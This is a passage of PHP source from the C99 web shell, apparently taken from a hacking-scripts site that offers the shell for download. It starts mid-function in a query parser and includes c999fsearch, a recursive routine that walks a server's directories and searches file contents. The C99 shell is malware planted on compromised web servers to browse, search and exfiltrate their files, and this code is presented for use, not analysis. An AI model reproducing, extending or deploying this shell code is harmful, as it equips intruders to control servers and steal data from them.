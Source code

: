 if ($types[$op] == 2)
 {
 foreach($arr as $k=&gt;$v)
 {
 if (strtoupper($v) == "LIMIT")
 {
 $result["limit"] = $arr[$k+1];
 $result["limit"] = explode(",",$result["limit"]);
 if (count($result["limit"]) == 1) {$result["limit"] = array(0,$result["limit"][0]);}
 unset($arr[$k],$arr[$k+1]);
 }
 }
 }
 }
 else {return FALSE;}
}
}
if (!function_exists("c999fsearch"))
{
function c999fsearch($d)
{
 global $found;
 global $found_d;
 global $found_f;
 global $search_i_f;
 global $search_i_d;
 global $a;
 if (substr($d,-1) != DIRECTORY_SEPARATOR) {$d .= DIRECTORY_SEPARATOR;}
 $h = opendir($d);
 while (($f = readdir($h)) !== FALSE)
 {
 if($f != "." && $f != "..")
 {
 $bool = (empty($a["name_regexp"]) and strpos($f,$a["name"]) !== FALSE) || ($a["name_regexp"] and ereg($a["name"],$f));
 if (is_dir($d.$f))
 {
 $search_i_d++;
 if (empty($a["text"]) and $bool) {$found[] = $d.$f; $found_d++;}
 if (!is_link($d.$f)) {c999fsearch($d.$f);}
 }
 else
 {
 $search_i_f++;
 if ($bool)
 {
 if (!empty($a["text"]))
 {
 $r = @file_get_contents($d.$f);
 if ($a["text_wwo"]) {$a["text"] = " ".trim($a["text"])." ";}
 if (!$a["text_cs"]) {$a["text"] = strtolower($a["text"]); $r = strtolower($r);}
 if ($a["text_regexp"]) {$bool = ereg($a["text"],$r);}
 else {$bool = strpos(" ".$r,$a["text"],1);}
 if ($a["text_not"]) {$bool = !$bool;}
 if ($bool) {$found[] = $d.$f; $found_f++;}
 }
 else {$found[] = $d.$f; $found_f++;}
 }
 }
 }
 }
 closedir($h);
}
}

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png